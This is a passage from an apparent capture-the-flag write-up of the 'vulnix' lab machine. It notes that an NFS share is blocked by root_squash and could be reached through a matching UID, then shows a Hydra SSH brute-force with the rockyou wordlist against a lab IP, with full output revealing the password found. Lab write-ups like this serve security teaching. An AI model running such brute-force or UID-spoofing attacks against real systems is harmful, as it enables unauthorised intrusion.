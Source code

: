   
---|---  
  
  
The mounted share cannot be accessed, probably because the [root_squash flag
is set](https://access.redhat.com/documentation/en-
US/Red_Hat_Enterprise_Linux/6/html/Security_Guide/sect-Security_Guide-
Securing_NFS-Do_Not_Use_the_no_root_squash_Option.html). We can safely assume
if we have a user named vulnix with the same UID we'll be able to access it.
But we'll get back to this later.  

## 2\. Gaining Access

After wasting a decent amount of time on finding exploits for running
services, I wasn't able to find any, don't do that, there are services we
didn't explore more properly in the first place.

  

### 2.1 Bruteforcing SSH

Running Hydra against either user or vulnix is an option with rockyou
wordlist, although this will take a very long time (unless you try user 'user'
first)!

  

    
    
     1  
     2  
     3  
     4  
     5  
     6  
     7  
     8  
     9  
    10  
    11  
    12  
    13

|

    
    
    root@kali:~# hydra -l user -P rockyou.txt 192.168.1.72 ssh -t 4  
    Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  
      
    Hydra (http://www.thc.org/thc-hydra) starting at 2016-10-30 23:43:08  
    [DATA] max 4 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~56032 tries per task  
    [DATA] attacking service ssh on port 22  
    [STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344335 to do in 3735:31h, 4 active  
    [STATUS] 61.33 tries/min, 184 tries in 00:03h, 14344215 to do in 3897:54h, 4 active  
    [STATUS] 60.71 tries/min, 425 tries in 00:07h, 14343974 to do in 3937:34h, 4 active  
    [22][ssh] host: 192.168.1.72   login: user   password: letmein  
    1 of 1 target successfully completed, 1 valid password found  
    Hydra (http://www.thc.org/thc-hydra) finished at 2016-10-30 23:51:39  
    root@kali:~#   
      